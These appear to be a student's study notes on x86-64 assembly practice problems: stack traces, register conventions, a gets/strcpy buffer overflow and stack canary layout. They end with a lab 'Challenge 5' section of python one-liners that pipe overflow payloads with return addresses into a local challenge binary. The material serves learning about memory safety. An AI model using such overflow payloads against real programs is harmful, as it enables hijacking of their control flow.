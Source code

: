 ## PP 3.32
![](Pasted%20image%2020240306102710.png)
![](Pasted%20image%2020240306102726.png)

| Label | PC (rip) | Instr | rdi | rsi | rax | rsp | \*rsp | desc  |
| ----- | -------- | ----- | --- | --- | --- | --- | ----- | ----- |
| F1    | 548      | lea   | 10  | -   | -   | 818 | 565   | add 1 |
| F2    | 54c      | sub   | 10  | 11  | -   | 818 | 565   | sub 1 |
| F3    | 550      | callq | 9   | 11  | -   | 818 | 565   |       |
| L1    | 540      | mov   | 9   | 11  | -   | 810 | 555   |       |
| L2    | 543      | imul  | 9   | 11  | 9   | 810 | 555   |       |
| L3    | 547      | retq  | 9   | 11  | 99  | 810 | 555   |       |
| F4    | 555      | retq  | 9   | 11  | 99  | 818 | 565   |       |
| M2    | 565      | mov   | 9   | 11  | 99  | 820 | -     |       |
## PP 3.34
![](Pasted%20image%2020240306104248.png)
![](Pasted%20image%2020240306104309.png)
1. r12-r15, rbp, rbx, meaning a0-a5
2. a6-7
3. there are only 6
## PP 3.46
![](Pasted%20image%2020240530143133.png)
![](Pasted%20image%2020240530143202.png)
![](Pasted%20image%2020240530143231.png)
A
1.

| data               | desc           |
| ------------------ | -------------- |
| 0x0123456789ABCDEF | rbx save       |
|                    | alloc 16 bytes |
|                    |                |
2.

| data                                    | desc           |
| --------------------------------------- | -------------- |
| 0x34 00 00 00 00 40 00 76               |                |
| 0x36 0x37 0x38 0x39 0x30 0x31 0x32 0x33 | rbx save       |
| 0x38 0x39 0x30 0x31 0x32 0x33 0x34 0x35 | alloc 16 bytes |
| 0x30 0x31 0x32 0x33 0x34 0x35 0x36 0x37 |                |
3. 0x34 00 00 00 00 40 00 76
4. rbx
5. Allocates a small fixed size but uses gets. Need to add 1 to strlen, too little is allocated. Strcopy should use length
## PP 3.48
![](Pasted%20image%2020240530143618.png)
![](Pasted%20image%2020240530143636.png)
1. without
	1. v: 24(%rsp)
	2. buf: (rsp) - 24(rsp)
2. With
	1. v: 8(rsp)
	2. buf: 16(rsp) - 40(rsp)
	3. canaray: 40(rsp)
3. Canary is right after buffer, so it would be overwritten first

## Challenge 5
part 1
```sh
python3 -c "print('A'\*61)" | ./challenge5 1
python3 -c "print('aaaaaaaa' + '\x00\x00\x00\x00\x00\x40\x07\x01'\*100)" | ./challenge5 2

challenge part 2
python3 -c "print(('\x01\x07\x40\x00'+'\x00' * 4)*100)" | ./challenge5 2
```

